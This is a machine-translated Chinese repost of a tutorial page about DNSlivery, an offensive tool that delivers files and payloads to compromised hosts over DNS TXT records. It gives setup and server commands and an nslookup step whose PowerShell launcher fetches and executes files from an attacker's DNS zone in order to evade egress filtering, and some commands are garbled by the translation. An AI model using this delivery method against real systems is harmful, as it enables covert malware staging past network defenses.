 # DNSlivery:通过 DNS 轻松交付文件和有效负载

> 原文：<https://kalilinuxtutorials.com/dnslivery/>

[![DNSlivery : Easy Files & Payloads Delivery Over DNS](img//d2497febf450a029aebb662e12c61f96.png "DNSlivery : Easy Files & Payloads Delivery Over DNS")](https://1.bp.blogspot.com/-bHbcsCPUMV0/XQrdH4moHaI/AAAAAAAAA7Q/5fWgNAIQIMcQb9hShML2MsqBocAN3EAXQCLcBGAs/s1600/DNSlivery%2B-%2B1.gif)

**DNSlivery** 允许使用 DNS 作为传输协议将文件传送到目标。以下是功能:

*   允许在目标上打印、执行或保存文件
*   不需要目标上的任何客户端
*   不需要成熟的 DNS 服务器

你想解决什么问题？

轻松地将文件和/或有效负载交付给无法进行传统 web 交付的受损目标，并且**无需专用客户端软件**。这适用于受限制的环境，在这些环境中，流出的 web 流量被禁止，或者只是被好奇的 web 代理检查。

![](img//596134dec57518a7e7e89a7bd785fb7a.png)

即使已经存在更完整的 DNS 隧道工具(s.a. [dnscat2](https://github.com/iagox86/dnscat2) 和[碘](https://code.kryo.se/iodine/))，它们都需要在目标上运行专用客户端。问题是，在这种受限的环境中，除了 DNS 之外，可能没有其他方法可以提供客户端。换句话说，使用这些工具构建 DNS 通信通道需要已经有一个 DNS 通信通道。

相比之下，DNSlivery 仅提供从服务器到目标的单向通信，但不需要任何专用客户端来完成此任务。因此，如果您需要在 DNS 上建立一个可靠的双向通信通道，可以使用 DNSlivery 将一个更高级的 DNS 隧道工具的客户机交付到您的目标。

**也读作——[GetWin:FUD Win32 有效负载生成器&监听器](https://kalilinuxtutorials.com/getwin/)**

**它是如何工作的？**

就像大多数 DNS 隧道工具一样，DNSlivery 使用`TXT`记录来存储 base64 表示的文件内容。然而，它不需要设置一个成熟的 DNS 服务器来工作。相反，它使用 [scapy](https://scapy.net/) 库来监听传入的 DNS 包，并制作所需的响应。

![](img//58d27bf92de7c3df95552664a8e1ab98.png)

由于大多数文件不适合放在单个`TXT`记录中，DNSlivery 将创建多个包含 base64 文件块的有序记录。作为一个例子，上图展示了名为`file`的文件的第 42 个^(和第 3 个)块的交付。

为了检索所有 base64 区块并将它们放回一起，而不需要目标上的专用客户端，DNSlivery 将为每个文件生成:

*   一个简单的明文启动器
*   可靠的 base64 编码 stager

![](img//3e88c56e2ae78e609699c9dc3b6bd9eb.png)

这一两阶段交付流程是向 stager(即处理丢失的 DNS 响应)添加功能所必需的，否则这些功能将无法包含在单个`TXT`记录中。

**目标兼容性注意事项**

目前，仅支持 PowerShell 目标。然而，DNSlivery 可以改进以支持更多的目标，如 bash 或 python。如果这是你希望看到实现的功能，请告诉我。

**要求**

DNSlivery 不需要构建复杂的服务器基础设施。事实上，只有两个简单的要求:

*   能够在您的公共 DNS 区域创建一个`NS`记录
*   拥有一台能够接收互联网流量的 Linux 服务器

**设置**

**DNS 区域**

第一步是通过在您的域中创建新的`NS`记录，将一个子域委派给运行 DNSlivery 的服务器。作为一个例子，我创建了下面的记录来将子域`dnsd.no0.be`委托给位于`vps.no0.be`的服务器。

NS vps.no0.be 中的 dnsd。

如果您的区域由第三方提供商管理，请参考他们的文档来创建`NS`记录。

**DNS lively**

运行 DNSlivery 的唯一要求是`python3`和它的`scapy`库。

git 克隆 https://github.com/no0be/DNSlivery.git & CD DNS livery
pip install-r requirements . txt

**用法**

**服务器**

DNSlivery 将为给定目录的所有文件提供服务(默认为`pwd`)，并且需要以 root 权限运行**，以监听传入的`udp/53`数据包。**

**用法:**DNS live . py[-h][-p PATH][-s SIZE][-v]接口域名服务器

**DNS live–通过 DNS 轻松传送文件和有效负载**

**位置参数:**
接口监听 DNS 流量的接口
域名 FQDN DNS 区域的名称
名称服务器 FQDN 运行 DNS live 的服务器名称

**可选参数:** –PATH 通过 DNS 提供服务的目录路径(默认值:pwd)
-s SIZE，–SIZE 以字节为单位的 base64 块大小(默认值:255)
-v，–verbose 增加详细程度

**例子**

$ sudo python 3 dns live . py eth 0 dnsd . no0 . be VPS . no0 . be-p/tmp/DNS-delivery

DNS live–通过 DNS 轻松交付文件和有效负载

[]File“File”准备在 file.dnsd.no0.be (7 个块)[]监听 DNS 查询…

**关于文件名规范化的说明**

由于域名允许的字符集比 UNIX 文件名更严格(根据 [RFC1035](https://tools.ietf.org/html/rfc1035#section-2.3.1) )，DNSlivery 将在需要时执行规范化。

**举例**:

[*] File“我牛逼的 Powershell 脚本；). ps1“准备交付于 my-awesome-powershell-script—-PS1 . dnsd . no0 . be(1891 块)

请注意，当前的标准化代码并不完美，因为它没有考虑重叠文件名或大小限制。

**目标**

在目标上，通过请求其专用的`TXT`记录，从**检索所需文件的启动器**开始。支持以下三种启动器:

| 行动 | 发射者 | 描述 |
| --- | --- | --- |
| 打印 | `[filename].print.[domain]` | (**默认**)将交付的文件打印到控制台 |
| 执行 | `[filename].exec.[domain]` | 执行交付的文件(对脚本有用) |
| 救援 | `[filename].save.[domain]` | 将交付的文件保存到磁盘(对二进制文件有用) |

```
nslookup -type=txt [filename].[stager].[domain]
```

然后，只需**将 DNS 响应中引用的启动器复制并粘贴到 PowerShell 控制台**中，以在目标上检索文件。

[**Download**](https://github.com/no0be/DNSlivery#what-problem-are-you-trying-to-solve)